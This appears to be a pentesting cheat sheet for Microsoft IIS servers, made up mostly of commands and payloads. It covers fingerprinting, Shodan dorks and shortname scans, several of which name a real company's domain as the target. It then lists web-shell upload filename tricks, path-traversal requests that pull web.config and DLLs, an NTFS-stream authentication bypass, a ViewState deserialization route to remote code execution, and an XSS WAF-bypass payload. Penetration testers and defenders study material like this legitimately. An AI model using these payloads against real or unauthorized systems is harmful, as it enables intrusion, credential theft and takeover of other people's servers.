


# iis-pentest

🔍 Question of the day: How can you effectively exploit Windows IIS targets? 🖥️

Fingerprinting IIS - Start by using Nuclei to detect IIS servers. Check out this simple template:

```
> nuclei -l targets -t templates/tech-detect.yaml -silent
```

**Server response headers:**

```
> nc -v domain.com 80
> openssl s_client -connect example.com:443

HTTP/1.1 200 OK

Server: Microsoft-IIS
X-Powered-By: ASP.NET
```

Internal IP Address disclosure:
```
> curl -v --http1.0 http://example.com

HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016
```

**Shodan dorks:**
```
http.title:"IIS"
ssl:"Tesla Inc." http.title:"IIS"
ssl.cert.subject.CN:"tesla.com" http.title:"IIS"
ssl.cert.issuer.CN:"tesla.com" http.title:"IIS"
```
**HTTPAPI 2.0 404 Error**

If you see an error like the following one:

**It means that the server didn't receive the correct domain name inside the Host header.**
In order to access the web page you could take a look to the served SSL Certificate and maybe you can find the domain/subdomain name in there. If it isn't there you may need to brute force VHosts until you find the correct one.


**Fuzzing approach:**
```
/trace.axd
/trace.axd?id=1
/admin/help.cgi
/admin/help.cgi.bak
/admin/WS_FTP.LOG
/adovbs.inc
/confirm.asp.bak 
/default.asp.bak
/login.asp.bak
/pindex.asp.bak
/rootlogin.asp.bak
/rootlogin.asp.old
/_vti_pvt/service.cnf 
/include/common.inc
/WS_FTP.LOG
/service.cnf
/_vti_pvt/service.cnf

or try next wordlists:
- iis.txt
- iisfinal.txt
- god.txt

and with next extensions: 

.asp,.aspx,.ashx,.asmx,.wsdl,.wadl,.config,.xml,.zip,.txt,.dll,.json
```
**Run Nuclei templates:**
```
> nuclei -l domains.txt -t templates/ -tags microsoft,windows,asp,aspx,iis,azure -silent
> nuclei -l domains.txt -t templates/ -silent
```
**Use shortscan or other shortname scanners to enumerate directory and file shortnames:**
```
IIS Tilde Enumeration (Burp Extension)
https://github.com/projectmonke/shortnameguesser
https://github.com/bitquark/shortscan

> shortscan https://url/
> shortscan https://tesla.com/
> shortscan https://tesla.com/admin/
> shortscan https://tesla.com/admin/dashboard

Note: any valid dir endpoint such as 403,401,301,200 etc, scan that endpoint again!!

JetBrains dotPeek -> to analyze files such as dll file and export the source of that file
```





**Reverse proxy misconfiguration:**
```
If you can find a place where there is a reverse proxy on IIS, you can traverse on the backend server using ..%2f
http://10.0.0.1/admin/ -> http://10.0.0.1/
try /anything/..%2fadmin -> http://10.0.0.1/admin
```

**Basic Authentication bypass (IIS 7.5)**

You can try to mix this vulnerability and the last one to find new folders and bypass the authentication.
```
/admin:$i30:$INDEX_ALLOCATION/admin.php
/admin::$INDEX_ALLOCATION/admin.php
```
**Grab the machine keys from web.conf to pivot to RCE:**
```
IIS is one of the easiest targets to get RCE if you can leak the web.conf file, you normally have RCE via deserialization (VIEWSTATE parameter)
```

**Upload shell bypass (with and without dot):**
```
shell.aspx
shell.aspx.
shell.aspx..
shell.aspx...

and other extensions (.asp, .ashx, .config)
```
**Upload shell via path traversal:**
```
Create shell file with next filename ../../../../shell.aspx and upload
```
**Path traversal via vulnerable parameter:**
```
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
GET /download_page?id=web.config HTTP/1.1
GET /download_page?id=../web.config HTTP/1.1
GET /download_page?id=../../web.config HTTP/1.1
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
GET /download_page?id=..%2f..%2fMinded/Views/web.config HTTP/1.1
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Mvc.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Mvc.Ajax.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Mvc.Html.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Optimization.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Routing.dll HTTP/1.1
```


**HPP Pollution for WAF bypass:**
```
> https://site.com/page?parameter=<svg/&parameter=onload=alert(1)>
```

**Useful videos and materials:**

```
https://youtu.be/HrJW6Y9kHC4
https://youtu.be/_4W0WXUatiw
https://youtu.be/cqM-MdPkaWo
https://docs.google.com/presentation/d/1AA0gX2-SI_9ErTkBhtW0b-5BH70-1B1X
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services
```
